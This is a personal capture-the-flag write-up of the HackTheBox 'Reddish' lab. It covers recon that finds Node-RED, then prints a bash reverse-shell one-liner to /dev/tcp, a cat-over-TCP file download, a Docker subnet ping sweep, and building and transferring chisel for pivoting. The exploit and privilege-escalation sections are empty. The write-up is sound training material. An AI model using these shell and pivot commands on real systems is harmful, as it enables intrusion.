

# Reddish
Name: Reddish
Date:  24/08/2022
Difficulty:  Insane
Goals:  To practice:
- different ways pivot 
- Linux related machines 
- not done one recently 
- database hacking
Learnt:
1. I need to try switching more Web Requests
2. TCP reply not listen back on shell...
3. cat file transfer
4. /dev/shm directory
5. Manual(Heard but not tried till now) Go Programs by using ldflags and upx packing from 10Mb to 3Mb!

## Recon



I want to note some of the differences to mine and Ippsec's more efficient Recon, although its is a scripted video it is still someone else approach to Web Hacking to assimilate to my own.


Firstly Icons favicons, in the Haddix Bug Bounty Hunter Methodology and on serveral podcast Haddix mentions a friend whom had a expertise in favicon abuse. 

From the icon, reverse image searches - a reason to use google more then identifies the RedNode Application.

I feroxbuster and then tried the /red/about directory and got this post request :
This is such a weird request to me


to get the About.html, grepping for `red`
`

Reveal node-red...

I still think the favicon is cooler, but I a happy that I am improving my searching or dorking ability somewhat as I have be worrying I am too meticulious or no where near enough to get anywhere. **BUT**

I would have notice the key, but not found it.. I know 


`ab68fb463e681b499d99226ce92e12e9`

DAY 2 returned it generate a new `b1a51218f30da47d4f45b52972804d1a`

[Node-RED](https://nodered.org/about/)is a program tools visually displaying and interactable function of a program in chart


This section was a real hammer home of the, how can I achieve my objective with what is in front of me. I think I have been concern about learning about and I will endeavour to try more boxes like this, I remember there is some proving ground boxes that are more like this.


TCP reply to!


`bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'`

Even though I like ncat and netcat, I am glad to finally be prompted to use it as a file transfer mechanism instead of other tools. Similar to trying out powercat it felt fun, but also gratting a tad as I always see it on Enumeration Script scans after I run it.. but I don't check its there before file transfering.


WOW on the cat file transfer, I have not seen this on any OSCP cheatsheets!
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /tmp/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

LinEnum finds Docker


Although it is not mentioned a good thing to then check with Docker would be IP address as it is may have its own routing configuration to the host box.


```bash
for ip in $(seq 1 5); do
	ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"
	done
```
Oneliner
``
`for ip in $(seq 1 5); do ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`
`for ip in $(seq 1 5); do ping -c 1 172.19.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`

$1 = Gateway
try 2!
$3 = possibly other containers
19:45
https://www.youtube.com/watch?v=Yp4oxoQIBAM

```bash
cd /tmp
git clone https://github.com/jpillora/chisel.git
# To mimise binary size
# -s strip binary of debug info
# -w strip of dwarf infomation
go build -ldflags="-s -w"
upx brute chisel
ncat -lvp 80 < chisel
bash -c "cat < /dev/tcp/$IP/$Port > /tmp/chisel"
```

Ran into a lib missing error, trying this soon
```
go env GOOS GOARCH # current system as target
go tool dist list
GOOS=<os> GOARCH=<arch> go build
```

## Exploit

## Foothold

## PrivEsc

      
